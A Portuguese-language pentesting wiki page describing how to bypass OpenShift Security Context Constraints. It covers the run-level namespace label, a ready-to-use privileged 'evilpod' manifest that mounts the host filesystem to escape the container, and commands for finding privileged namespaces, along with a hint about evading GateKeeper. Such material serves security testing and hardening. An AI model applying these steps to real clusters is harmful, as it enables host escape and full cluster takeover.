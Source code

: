 # Openshift - Bypass de SCC

**O autor original desta página é** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces Privilegiados

Por padrão, SCC não se aplica nos seguintes projetos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se você implantar pods em um desses namespaces, nenhum SCC será aplicado, permitindo a implantação de pods privilegiados ou montagem do sistema de arquivos do host.

## Rótulo de Namespace

Existe uma maneira de desativar a aplicação do SCC no seu pod de acordo com a documentação da RedHat. Você precisará ter pelo menos uma das seguintes permissões:

- Criar um Namespace e criar um Pod neste Namespace
- Editar um Namespace e criar um Pod neste Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
O rótulo específico `openshift.io/run-level` permite aos usuários contornar SCCs para aplicações. Conforme a documentação da RedHat, quando este rótulo é utilizado, nenhum SCC é aplicado a todos os pods dentro desse namespace, removendo efetivamente quaisquer restrições.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Adicionar Rótulo

Para adicionar o rótulo em seu namespace:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para criar um namespace com o rótulo através de um arquivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Agora, todos os novos pods criados no namespace não devem ter nenhum SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Na ausência de SCC, não há restrições na definição do seu pod. Isso significa que um pod malicioso pode ser facilmente criado para escapar para o sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Agora, tornou-se mais fácil escalar privilégios para acessar o sistema host e posteriormente assumir o controle de todo o cluster, ganhando privilégios de 'cluster-admin'. Procure a parte de **Pós-Exploração do Nó** na seguinte página:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Rótulos personalizados

Além disso, com base na configuração do alvo, alguns rótulos / anotações personalizados podem ser usados da mesma forma que no cenário de ataque anterior. Mesmo que não seja feito para isso, os rótulos podem ser usados para conceder permissões, restringir ou não um recurso específico.

Tente procurar por rótulos personalizados se puder ler alguns recursos. Aqui está uma lista de recursos interessantes:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Listar todos os namespaces privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploração avançada

No OpenShift, como demonstrado anteriormente, ter permissão para implantar um pod em um namespace com o rótulo `openshift.io/run-level` pode levar a uma tomada de controle direta do cluster. Do ponto de vista das configurações do cluster, essa funcionalidade **não pode ser desativada**, pois é inerente ao design do OpenShift.

No entanto, medidas de mitigação como o **Open Policy Agent GateKeeper** podem impedir que os usuários definam esse rótulo.

Para contornar as regras do GateKeeper e definir esse rótulo para executar uma tomada de controle do cluster, **os atacantes precisariam identificar métodos alternativos.**

## Referências

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
